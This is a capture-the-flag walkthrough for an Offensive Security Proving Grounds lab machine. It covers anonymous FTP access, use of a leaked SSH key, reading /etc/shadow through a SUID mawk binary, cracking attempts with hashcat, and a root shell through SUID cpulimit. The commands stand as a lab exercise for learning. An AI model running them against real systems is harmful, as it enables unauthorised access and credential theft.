

# OnSystemShellDredd
**Date:** July 25th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.208.130`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

An additional all ports scan shows us:

```
PORT      STATE SERVICE VERSION
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

<br>

### FTP Digging

`ftp 192.168.208.130`

```
Connected to 192.168.208.130.
220 (vsFTPd 3.0.3)
Name (192.168.208.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||64972|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||27539|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||42135|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************|  1823       66.86 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (55.34 KiB/s)
```

Logging into the FTP server as anonymous shows us a single hidden directory that looks like a username and inside it we find a private id_rsa key which I download.

<br>

## System Access

I change the permissions on the id_rsa file with `chmod 400 id_rsa`.

And connect over as user **hannah**:

`ssh -i id_rsa hannah@192.168.208.130 -p 61000`

```
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 25 23:03:53 2022 from 192.168.49.208
hannah@ShellDredd:~$ whoami
hannah
hannah@ShellDredd:~$ hostname
ShellDredd
```

<br>

## System Enumeration

I check `sudo -l` and get a message that the sudo command isn't found.

Looking in the hannah home directory shows us our first flag **local.txt**:

`wc -c /home/hannah/local.txt`

```
33 /home/hannah/local.txt
```

We have 2 users on the system with shells:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
hannah:x:1000:1000:hannah,,,:/home/hannah:/bin/bash
```

I look for files with SUID set and find a couple out of the norm:

`find / -perm /4000 2>/dev/null`

```
/usr/bin/mawk
/usr/bin/cpulimit
```

```
-rwsr-sr-x 1 root root 121976 Mar 23  2012 /usr/bin/mawk
-rwsr-sr-x 1 root root 23072 Jun 23  2017 /usr/bin/cpulimit
```

With **mawk** having SUID set we can read files we shouldn't be able to:

`mawk '//' "/etc/shadow"`

```
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFwJ4UCweCXGKSMIO8/qDM6NsiKckV8UZeZefDYw2CL2uAEwawIufKMv/e1Q6YDyTeqp0:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6RmYXyLoxl2q1purtp9d.tpWEJTmYOUJORrve1ohmQjJtNRfzfvcZXyzMLk89Ir/g5X.:18656:0:99999:7:::
```

I know I can use cpulimit to get root but wanted to try and crack these passwords anyways:

`hashcat -m 1800 -w 3 -D 1,2 -O hash.txt rockyou.txt`

But, neither end up cracking.

<br>

## Root

I use our other exploitable SUID file to escalate over to root:

`cpulimit -l 100 -f -- /bin/sh -p`

```
hannah@ShellDredd:/$ cpulimit -l 100 -f -- /bin/sh -p
Process 3828 detected
# whoami
root
# hostname
ShellDredd
```

Note: you can lookup SUID exploits on [**GTFOBins**](https://gtfobins.github.io/gtfobins/cpulimit/#suid)

We find our final flag in the **/root** directory:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Finding an open FTP port that allowed anonymous login
- On the FTP server a private SSH key was found that allowed us to login to the system
- A couple files with the SUID bit set (mawk and cpulimit) allowed us to do things we shouldn't have been able to, including escalating our privileges to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
